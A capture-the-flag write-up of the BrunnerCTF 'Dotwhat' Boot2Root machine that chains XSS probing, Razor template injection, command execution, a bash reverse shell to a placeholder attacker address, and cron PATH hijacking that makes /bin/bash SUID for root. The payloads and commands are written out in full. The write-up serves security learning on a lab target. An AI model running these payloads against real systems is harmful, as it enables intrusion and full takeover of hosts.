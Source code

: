 # Dotwhat – Boot2Root (BrunnerCTF)

In this writeup, we’ll go through solving the **Dotwhat** Boot2Root challenge from **BrunnerCTF**.  
The target is a `.NET` web application, and we’ll exploit it step-by-step to gain user and root access.
<br/>
![Image](images/Pasted%20image%2020250824164409.png)
<br/>

![Image](images/Pasted%20image%2020250824172856.png)
<br/>


---

## 1. Initial Recon
![Image](images/Pasted%20image%2020250824164640.png)
<br/>

After opening the website, we’re presented with a form that has **three input fields**.

Since the app is built with **.NET**, my first thought was to test for **XSS injection** and **SQL injection** in the fields, lets start with **XSS**.

I injected the following payload into each input to identify which one is vulnerable:
![Image](images/Pasted%20image%2020250824164817.png)
<br/>

```html
<script>alert("xss 1 or 2 or 3")</script>
```

After submitting, only the **Instruction** input field triggered the alert.  
This confirmed an **XSS vulnerability** due to raw HTML rendering.
![Image](images/Pasted%20image%2020250824164937.png)
<br/>
![Image](images/Pasted%20image%2020250824165004.png)
<br/>

---
## 2. From XSS to SSTI

By fingerprinting the application with **Wappalyzer**, we confirmed it’s a **.NET web app**.  
In .NET (Razor pages), server-side template injection (SSTI) is possible by using `@` syntax.
![Image](images/Pasted%20image%2020250824165106.png)
<br/>

I tested SSTI with a simple arithmetic payload:

```html
<script>
@(7 * 7)
</script>
```
![Image](images/Pasted%20image%2020250824165444.png)
<br/>

Looking at the **page source**, I saw the value `49` — proof that SSTI was working!  
This meant we could escalate from XSS → SSTI → RCE.
<br/>
![Image](images/Pasted%20image%2020250824165615.png)
<br/>


---

## 3. Achieving Remote Code Execution

To determine the OS, I attempted to run `pwd`:

```html
<script>
@{
    var proc = new System.Diagnostics.Process();
    proc.StartInfo = new System.Diagnostics.ProcessStartInfo("pwd");
    proc.StartInfo.RedirectStandardOutput = true;
    proc.StartInfo.UseShellExecute = false;
    proc.Start();
    @proc.StandardOutput.ReadToEnd();
}
</script>
```

![Image](images/Pasted%20image%2020250824170349.png)
<br/>


The output confirmed we were on a **Linux host**.
<br/>
![Image](images/Pasted%20image%2020250824170423.png)
<br/>

### Reverse Shell Payload

Next, I crafted a reverse shell payload to connect back to my attacker machine using ngrok:
![Image](images/Pasted%20image%2020250824170454.png)
<br/>
![Image](images/Pasted%20image%2020250824170555.png)
<br/>
![Image](images/Pasted%20image%2020250824170749.png)
<br/>


```html
<script>
@{
    var proc = new System.Diagnostics.Process();
    proc.StartInfo = new System.Diagnostics.ProcessStartInfo("/bin/bash", "-c \"/bin/bash -i >& /dev/tcp/YOUR_IP/YOUR_PORT 0>&1\"");
    proc.StartInfo.UseShellExecute = false;
    proc.StartInfo.RedirectStandardOutput = true;
    proc.StartInfo.RedirectStandardError = true;
    proc.Start();
    @proc.StandardOutput.ReadToEnd()
    @proc.StandardError.ReadToEnd()
}
</script>
```

On my listener (`nc -lvnp 4444`), I received a shell as the **user**.
![Image](images/Pasted%20image%2020250824170929.png)
<br/>

---

## 4. User Flag

With the shell established:

```bash
cd ~
cat user.txt
```

Output:

```
brunner{Something here}
```

User flag captured ✅

---

## 5. Privilege Escalation

To escalate, I enumerated **SUID binaries**:

```bash
find find / -perm -4000 -o -perm -2000 -type f 2>/dev/null    
/usr/bin/chage
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/expiry
/usr/bin/gpasswd
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/su
/usr/bin/umount
/usr/bin/crontab
/usr/bin/sudo
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/sbin/pam_extrausers_chkpwd
/usr/sbin/unix_chkpwd

```

Among them, `/usr/bin/crontab` stood out.

### Cron Exploit

Checking `/etc/cron.d/`, I found a custom cron job:

```bash
ls -la /etc/cron.d/          
total 12
drwxr-xr-x. 1 root root  14 Aug 23 19:11 .
drwxr-xr-x. 1 root root  12 Aug 23 19:11 ..
-rw-r--r--. 1 root root 102 Mar 31  2024 .placeholder
-rw-r--r--. 1 root root 201 Apr  8  2024 e2scrub_all
-rw-r--r--. 1 root root 189 Aug 23 19:11 migrate
cat /etc/cron.d/migrate    
* * * * * root cd /home/user/app && /usr/bin/dotnet ef database update >> /var/log/migrate.log 2>&1
```

Notice: The `PATH` includes `/opt/devtools` and the cron executes `dotnet`.  
Since `/opt/devtools/` is writable by our user, we can hijack it.

I created a malicious fake `dotnet` binary:

```bash
echo '#!/bin/bash
chmod u+s /bin/bash' > /opt/devtools/dotnet
chmod +x /opt/devtools/dotnet
```

After a minute, cron executed our payload and `/bin/bash` became SUID.

---

## 6. Root Shell & Flag

Now I spawned a root shell:

```bash
/bin/bash -p
id
```

```
uid=1001(user) gid=1001(user) euid=0(root) groups=1001(user),100(users)
```

We are **root**!

Finally, retrieving the root flag:

```bash
cd /root
cat root.txt
```

Output:

```
brunner{SomethingSecret here}
```

Root flag captured ✅

---

## Conclusion

This challenge demonstrated a full attack chain:

1. **XSS → SSTI** in a .NET Razor app
    
2. **SSTI → RCE** with `System.Diagnostics.Process`
    
3. **Reverse shell** for initial foothold
    
4. **Cron + PATH hijacking** for privilege escalation
    
5. **Root access** obtained successfully
    

A neat and realistic Boot2Root machine! 🚩
